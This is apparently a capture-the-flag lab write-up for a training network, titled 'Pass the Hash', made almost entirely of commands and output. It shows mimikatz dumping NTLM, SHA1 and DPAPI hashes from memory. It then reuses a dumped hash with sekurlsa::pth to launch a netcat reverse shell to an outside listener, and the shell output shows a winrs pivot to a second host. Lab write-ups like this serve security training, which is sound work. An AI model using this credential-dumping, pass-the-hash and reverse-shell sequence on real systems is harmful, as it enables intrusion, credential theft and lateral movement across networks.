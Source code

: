 ***Pass the Hash***
```
mimikatz # privilege::debug 
mimikatz # token::elevate 
mimikatz # sekurlsa::msv
```

```
Authentication Id : 0 ; 649970 (00000000:0009eaf2)                              
Session           : RemoteInteractive from 4                                    
User Name         : t1_toby.beck                                                
Domain            : ZA                                                          
Logon Server      : THMDC                                                       
Logon Time        : 11/18/2024 2:09:42 AM                                       
SID               : S-1-5-21-3330634377-1326264276-632209373-4607               
        msv :                                                                   
         [00000003] Primary                                                     
         * Username : t1_toby.beck                                              
         * Domain   : ZA                                                        
         * NTLM     : 533f1bd576caa912bdb9da284bbc60fe                          
         * SHA1     : 8a65216442debb62a3258eea4fbcbadea40ccc38                  
         * DPAPI    : d9cd92937c7401805389fbb51260c45f  
```

```
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /ntlm:533f1bd576caa912bdb9da284bbc60fe /run:"c:\tools\nc64.exe -e cmd.exe 10.50.77.208 4443
"                                                                         
```

```
root@ip-10-10-18-193:~# nc -lvp 4443
Listening on [0.0.0.0] (family 0, port 4443)
Connection from ip-10-200-78-249.eu-west-1.compute.internal 56143 received!
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
za\t2_felicia.dean

C:\Windows\system32>hostname
hostname
THMJMP2

C:\Windows\system32>winrs.exe -r:THMIIS.za.tryhackme.com cmd
winrs.exe -r:THMIIS.za.tryhackme.com cmd
Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\t1_toby.beck>whoami
whoami
za\t1_toby.beck

C:\Users\t1_toby.beck>hostname
hostname
THMIIS

C:\Users\t1_toby.beck>
```

